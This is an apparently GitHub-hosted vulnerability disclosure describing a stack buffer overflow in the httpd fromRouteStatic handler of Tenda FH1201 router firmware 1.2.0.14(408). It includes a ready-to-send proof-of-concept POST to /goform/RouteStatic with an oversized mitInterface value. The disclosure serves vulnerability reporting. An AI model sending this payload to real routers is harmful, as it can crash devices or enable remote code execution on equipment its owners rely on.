


# fh1201 Vulnerability

Vendor:Tenda

Product:fh1201 

Version:1.2.0.14(408)

Vulnerability: buffer overflow

## Descriptions

We found an overflow vulnerability  in `httpd` :

In  fromRouteStatic function,it reads in a user-provided parameter `mitInterface` and `entrys`.

If the value of entrys is not empty ,the variable v2 will be passed to the sprintf function without any length check, which may overflow the stack-based buffer s__1. 

<div  align="center"></div>

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

## Proof of Concept (PoC)

```
http
POST /goform/RouteStatic HTTP/1.1
Host: 192.168.6.2
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Referer: http://192.168.6.2/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 1188

entrys=1&mitInterface=11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```
## Overcome


<div  align="center"></div>

